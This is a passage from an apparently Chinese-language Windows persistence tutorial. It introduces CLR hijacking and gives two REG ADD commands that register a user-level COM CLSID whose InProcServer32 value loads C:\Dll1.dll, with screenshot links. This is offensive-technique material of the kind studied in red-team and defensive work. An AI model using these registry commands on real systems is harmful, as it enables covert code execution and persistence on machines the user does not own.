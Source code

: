 关联后默认的程序就是cmd

![image-20240409165458699](images/20.png)

# CLR劫持

CLR 全称 Common Language Runtime，中文名称为公共语言运行时。CLR 是.NETFramework 的主要执行引擎，作用之一是监视程序的运行。可以理解为，系统在执行`.NET`程序是先加载一个指定的dll文件

```
修改注册表：HKEY_CURRENT_USER\Software\Classes\CLSID\

REG ADD "HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1234-1234-1234-111111111111}\InProcServer32" /VE /T REG_SZ /D "C:\Dll1.dll" /F
REG ADD "HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1234-1234-1234-111111111111}\InProcServer32" /V ThreadingModel /T REG_SZ /D Apartment /F
```

![image-20240410100239901](images/21.png)
